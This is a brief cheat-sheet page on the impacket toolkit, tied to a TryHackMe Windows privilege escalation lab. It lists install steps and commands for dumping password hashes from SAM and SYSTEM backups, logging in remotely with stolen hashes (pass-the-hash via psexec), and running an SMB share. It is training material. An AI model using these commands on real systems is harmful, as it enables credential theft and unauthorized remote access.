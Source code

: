 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-md-2"><div>

[impacket](https://github.com/fortra/impacket) (11.1k ⭐) is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols.

```shell!
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
```


</div><div>

#### Dump hashes from backup

Dump hashes from a backup of SAM and SYSTEM hashes.

```shell!
$ python /opt/impacket/examples/secretsdump.py -sam XXX -system YYY LOCAL
```

<br>

#### PsExec

Use a hash to login (Pass-The-Hash).

```shell!
$ python /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP
```

<br>

#### SMB server

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ python /opt/impacket/examples/smbserver.py -smb2support -username XXX -password YYY share_name /path/to/share
```
</div></div>